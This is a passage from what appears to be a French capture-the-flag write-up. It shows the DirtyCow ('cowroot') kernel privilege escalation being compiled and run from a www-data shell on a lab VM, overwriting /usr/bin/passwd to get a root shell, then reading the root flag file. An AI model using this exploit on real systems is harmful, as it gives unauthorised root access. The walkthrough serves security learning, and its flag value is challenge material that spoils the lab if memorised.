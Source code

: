 ```sh
}
^
dirtycow.c:129:1: warning: control reaches end of non-void function [-Wreturn-type]
}
^
dirtycow.c:137:5: warning: implicit declaration of function 'asprintf' is invalid in C99 [-Wimplicit-function-declaration]
    asprintf(&backup, "cp %s /tmp/bak", suid_binary);
    ^
dirtycow.c:141:5: warning: implicit declaration of function 'fstat' is invalid in C99 [-Wimplicit-function-declaration]
    fstat(f,&st);
    ^
dirtycow.c:143:36: warning: format specifies type 'int' but the argument has type '__off_t' (aka 'long') [-Wformat]
    printf("Size of binary: %d\n", st.st_size);
                            ~~     ^~~~~~~~~~
                            %ld
7 warnings generated.
www-data@ubuntu:/dev/shm$ ./cowroot
./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 47032
Racing, this may take a while..
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@ubuntu:/run/shm# 

```

### <mark style="color:orange;">**Et voilà, mission accomplie: nous sommes root.**</mark>

```
root@ubuntu:/run/shm# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@ubuntu:/run/shm# cd /root
cd /root
root@ubuntu:/root# ls -la
ls -la
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
root@ubuntu:/root# cat .flag.txt
cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

root@ubuntu:/root# 
```
